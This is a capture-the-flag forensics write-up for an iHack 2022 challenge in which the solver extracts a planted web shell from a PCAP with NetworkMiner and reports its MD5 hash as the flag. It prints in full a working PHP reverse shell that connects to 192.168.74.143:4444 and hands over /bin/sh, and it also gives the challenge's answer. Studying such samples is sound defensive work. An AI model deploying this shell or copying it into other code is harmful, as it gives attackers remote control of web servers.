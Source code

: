 # DFIR 1

> **Challenge Description:** iHack's web server have been defaced. Provide us the MD5 hash of the malicious file in the web server from this PCAP.
>
**Flag Format:** `ihack{MD5}`

### Solution

We can first analyze the PCAP file in `Wireshark` by doing `Follow TCP Streams`. However, due to the overwhelmingly amount of files, using `NetworkMiner` would be a better option.

![Screenshot](./Screenshot.png)

A PHP reverse shell was found on stream `TCP 61440`. 

```
<?php
// PHP Reverse Shell
// Copyright (C) 2020 e@hotmail.com
// AbuDayeh
set_time_limit (0);
$VERSION 	= "1.0";
$ip 		= '192.168.74.143'; 	// Change Your {IP}
$port 		= 4444;       	// Change Your {Port}
$chunk_size 	= 1400;
$write_a 	= null;
$error_a 	= null;
$shell 		= 'echo "V2VsY29tZSB0byBpaGFjayAyMDIyLiBtZDUgdGhpcyB3ZWJzaGVsbA==" | base64 -d; /bin/sh -i';
$daemon 	= 0;
$debug 		= 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	if ($pid) {
		exit(0);
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}
	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}
chdir("/");
umask(0);
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}
$descriptorspec = array(
   0 => array("pipe", "r"),
   1 => array("pipe", "w"),
   2 => array("pipe", "w")
);
$process = proc_open($shell, $descriptorspec, $pipes);
if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);
printit("Successfully opened reverse shell to $ip:$port");
while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}
fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}
?>
```

This can be verified by viewing the base64 encoded payload embedded in the PHP file.

```
┌──(kali💀JesusCries)-[~/Desktop]
└─$ echo "V2VsY29tZSB0byBpaGFjayAyMDIyLiBtZDUgdGhpcyB3ZWJzaGVsbA==" | base64 -d
Welcome to ihack 2022. md5 this webshell
```

Retrieve the MD5 hash of the PHP web shell.

```
┌──(kali💀JesusCries)-[~/Desktop]
└─$ md5sum /home/kali/Desktop/NetworkMiner_2-7-3/AssembledFiles/192.168.74.1/TCP-61440/avatar-1606914__480.php
8472a0454391a40792173708866514ef  /home/kali/Desktop/NetworkMiner_2-7-3/AssembledFiles/192.168.74.1/TCP-61440/avatar-1606914__480.php
```

**Flag:** `ihack{8472a0454391a40792173708866514ef}`
